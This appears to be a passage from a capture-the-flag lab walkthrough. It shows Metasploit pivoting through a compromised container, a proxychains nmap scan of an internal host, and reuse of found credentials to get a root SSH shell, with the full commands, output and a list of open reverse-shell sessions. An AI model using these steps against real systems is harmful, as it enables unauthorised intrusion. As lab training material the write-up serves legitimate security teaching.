 ```text
< Set-Cookie: laravel_session=eyJpdiI6IklLQ0dkU3BSZG12ZkEzazdwK0tLN1E9PSIsInZhbHVlIjoiYlZNOXJXRkJkMUdwTExQK2xjT2hVQnF3NW1Galo3dE94MTYxWkJEMmdRL0VVOHpLRCsvSVkvTU9lNENtKzJVYnVvQ1hDOWNqUHNJdXJCczZXVlRRdWtydlJLRzRIY1hNckZCblZEREo0QjBkWXZrNVdwTGJ6eFp6SGlLSEJncGUiLCJtYWMiOiJhMjU3MDk0OTI3YzBlZjc3N2Q1ZDUzZmQ2Y2UzNjdjYzk0MjM2NzE3NzJiNDI0NzljNjQ5YzE2NjM0NzNhMWVkIn0%3D; expires=Fri, 09-Dec-2022 21:13:11 GMT; Max-Age=7200; path=/; httponly; samesite=lax
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/html; charset=UTF-8
< 
<!DOCTYPE html>

... etc ...
```

Run Nmap on the compromised machine using `proxychains`.

```text
msf6 auxiliary(server/socks_proxy) > proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 172.17.0.1
[*] exec: proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 172.17.0.1

Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-09 12:14 MST
Nmap scan report for 172.17.0.1
Host is up (0.37s latency).

PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
443/tcp  closed https
5432/tcp closed postgresql

Nmap done: 1 IP address (1 host up) scanned in 1.35 seconds
```

Let's see if password reuse by the user has occured. Let's try and log in to SSH using the credentials found above (`santa:p4$$w0rd`).

```text
msf6 auxiliary(server/socks_proxy) > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > run ssh://santa:p4$$w0rd@172.17.0.1

[*] 172.17.0.1:22 - Starting bruteforce
[+] 172.17.0.1:22 - Success: 'santa:p4$$w0rd' 'uid=0(root) gid=0(root) groups=0(root) Linux hostname 4.15.0-156-generic #163-Ubuntu SMP Thu Aug 19 23:31:58 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 3 opened (10.2.4.35-10.10.41.251:36552 -> 172.17.0.1:22) at 2022-12-09 12:18:38 -0700
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf6 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         shell cmd/unix                                   10.2.4.35:4444 -> 10.10.41.251:33158 (10.10.41.251)
  2         meterpreter x86/linux  www-data @ 172.28.101.50  10.2.4.35:4433 -> 10.10.41.251:39880 (172.28.101.50)
  3         shell linux            SSH siachen @             10.2.4.35-10.10.41.251:36552 -> 172.17.0.1:22 (172.17
                                                             .0.1)
```
